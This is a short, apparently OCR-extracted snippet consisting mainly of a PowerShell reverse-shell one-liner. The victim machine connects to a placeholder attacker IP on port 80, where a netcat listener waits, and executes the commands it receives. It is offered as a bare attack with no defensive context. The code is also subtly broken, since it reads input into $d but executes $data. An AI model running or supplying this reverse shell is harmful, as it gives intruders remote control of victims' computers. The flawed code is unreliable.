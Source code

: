 Attacker Machine:
 - netcat listening on port 80

Victim Machine:
```
cmd /c powershell -nop -c "$c=New-Object Net.Sockets.TCPClient( '<ATTACKER_PUBLIC_IP>',80 );
$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0)
{;$d=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0,$i);
$sb=(IEX $data 2>&1|Out-String);$sb2=$sb+'PS '+(pwd).Path+'>';
$sb=([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sb,0,$sb.Length);
$s.Flush()};$c.Close()"
```
